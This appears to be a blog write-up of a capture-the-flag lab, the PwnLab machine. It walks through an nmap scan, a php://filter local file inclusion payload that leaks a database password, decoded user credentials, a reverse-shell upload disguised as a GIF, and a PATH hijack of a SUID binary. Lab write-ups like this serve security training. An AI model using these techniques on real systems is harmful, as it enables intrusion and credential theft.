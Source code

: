 ```yaml
---
title: PwnLab
categories: [Proving Grounds, Play]
tags: [LFI, PrivEsc, mysql]
image:
  path: /Vulnhub-Files/img/PwnLab/Untitled%207.png
  alt:  PwnLab Machine 🖥️
---
```



Let’s Find the Victim Machines IP Address ⤵️

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled.png)

```bash
IP : 10.0.2.33
```
{: .nolineno}
{: .nolineno}

## Port Scan Results ⤵️

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/pwnlab]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.33
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-22 16:06 IST
Nmap scan report for 10.0.2.33
Host is up (0.0016s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: PwnLab Intranet Image Hosting
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34509/tcp6  status
|   100024  1          45792/udp   status
|   100024  1          51759/udp6  status
|_  100024  1          51803/tcp   status
3306/tcp  open  mysql   MySQL 5.5.47-0+deb8u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.47-0+deb8u1
|   Thread ID: 41
|   Capabilities flags: 63487
|   Some Capabilities: LongPassword, Support41Auth, InteractiveClient, ConnectWithDatabase, IgnoreSigpipes, LongColumnFlag, FoundRows, Speaks41ProtocolNew, Speaks41ProtocolOld, IgnoreSpaceBeforeParenthesis, SupportsTransactions, SupportsCompression, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, ODBCClient, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: 0%h[rJYb_9=egVY:X*gH
|_  Auth Plugin Name: mysql_native_password
51803/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:EF:BA:B4 (Oracle VirtualBox virtual NIC)
```
{: .nolineno}
{: .nolineno}

## Web Enumeration ⬇️

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%202.png)

Now lets try to access config.php file as I found while directory listing  For that I need to use the `php://filter` command >>

```bash
http://10.0.2.33/?page=php://filter/convert.base64-encode/resource=config
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%203.png)

I got this ➡️

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%204.png)

```php
<?php
$server	  = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?>
```
{: .nolineno}
{: .nolineno}

Now I got the sql access >>

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%205.png)

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%206.png)

```sql
+------+--------------------------------+
| user |      pass > base64 decoded     |
+------+--------------------------------+
| kent | Sld6WHVCSkpOeQ== > JWzXuBJJNy  |
| mike | U0lmZHNURW42SQ== > SIfdsTEn6I  |
| kane | aVN2NVltMkdSbw== > iSv5Ym2GRo  |
+------+--------------------------------+
```
{: .nolineno}
{: .nolineno}

So with kent credentials I got logged in —>

But I can also se the index.php file like config so let’s see >>

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%207.png)

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%208.png)

Now I see so I can use lang as a input for cookies so let’s try something —> 

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%209.png)

Now lets try to upload our reverse shell payload , but I was unable upload the .php file so I made some changed while uploading the payload ⤵️

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2010.png)

1. I changed the file name and added `.gif`
2. I changed the `Content-Type:` from `application/x-php` to `image/gif`.
3. Then I added the magic number of gif file as `GIF89a;` to make it look like gif file .
4. In response I got the upload location .

Now lets access the file as we accessed `/etc/passwd` file >>

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2011.png)

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2012.png)

I got the Local Privilege shell So lets exploit it further now ➡️

So while enumerating I got this >>

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2013.png)

So in this case `msgmike` executes cat command to read the following file and it also contains the SUID permissions for mike to provide a executable shell .

therefore I need to make `cat` as `bin/bash` and it will be executed by `msgmike` .

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2014.png)

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2015.png)

Lets see what it does >>

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2016.png)

Now the simple thing to do >>

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2017.png)

can’t use cat because of the $PATH that’s why I used more here ⬇️

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2018.png)

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }